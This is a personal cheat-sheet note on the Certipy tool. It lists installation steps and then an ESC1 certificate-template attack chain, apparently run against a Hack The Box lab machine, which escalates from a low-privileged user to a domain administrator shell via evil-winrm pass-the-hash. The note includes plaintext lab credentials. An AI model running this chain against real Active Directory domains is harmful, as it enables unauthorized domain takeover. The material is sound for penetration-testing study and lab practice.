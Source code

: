 ```yaml
---
creation date: April 7th 2023
last modified date: April 7th 2023
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Certipy]]  
___

## Description:
[Certipy](https://github.com/ly4k/Certipy)

## Installation
```
pip3 install certipy-ad
```
or
```
git clone https://github.com/ly4k/Certipy                                                                                      
python -m venv Certipy                                                  
source Certipy/bin/activate                                             
pip install .  
```

## Commands

**Find all certs**
```
/home/kali/.local/bin/certipy find -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207
```
**find vulnerable**
```
/home/kali/.local/bin/certipy find -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -stdout -vulnerable
```


ECS1:
```
/home/kali/.local/bin/certipy find -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -stdout -vulnerable

/home/kali/.local/bin/certipy req -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -dc-ip 10.10.11.207 -template ESC1 -ca coder-DC01-CA -upn administrator@coder.htb

sudo ntpdate -u 10.10.11.207

/home/kali/.local/bin/certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'coder.htb' -dc-ip 10.10.11.207

evil-winrm -i coder.htb -u Administrator -H 'inputhashhere'
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 7th 2023 (03:48 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
